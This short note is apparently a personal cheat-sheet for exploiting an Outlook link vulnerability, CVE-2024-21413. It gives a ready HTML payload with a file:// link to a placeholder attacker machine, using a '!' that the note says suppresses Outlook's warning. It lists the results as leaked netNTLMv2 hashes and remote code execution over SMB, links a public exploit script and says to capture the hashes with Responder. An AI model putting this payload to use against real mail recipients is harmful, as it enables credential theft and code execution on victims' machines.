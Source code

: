
```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```
in html message body
the ! stops outlook asking/warning

- netNTLMv2 hash sent to attacker machine
- RCE through smb file:// using com

https://github.com/CMNatic/CVE-2024-21413/blob/main/exploit.py


Listen with responder

